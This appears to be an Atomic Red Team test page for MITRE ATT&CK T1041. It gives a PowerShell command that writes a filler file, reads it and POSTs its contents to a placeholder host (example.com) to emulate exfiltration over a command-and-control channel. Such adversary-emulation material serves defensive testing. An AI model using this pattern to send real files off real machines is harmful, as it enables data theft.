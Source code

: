 ```yaml
---
tags: [T1041, atomic_test]
filename: "[[T1041|T1041 - Exfiltration Over C2 Channel]]"
---
```

# T1041 - Exfiltration Over C2 Channel

## Atomic Test #1 - C2 Data Exfiltration
Exfiltrates a file present on the victim machine to the C2 server.

**Supported Platforms:** Windows


**auto_generated_guid:** d1253f6e-c29b-49dc-b466-2147a6191932





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | string | example.com|
| filepath | The file which is being exfiltrated to the C2 Server. | path | $env:TEMP&#92;LineNumbers.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
if(-not (Test-Path #{filepath})){ 
  1..100 | ForEach-Object { Add-Content -Path #{filepath} -Value "This is line $_." }
}
[System.Net.ServicePointManager]::Expect100Continue = $false
$filecontent = Get-Content -Path #{filepath}
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $filecontent -DisableKeepAlive
```






<br/>
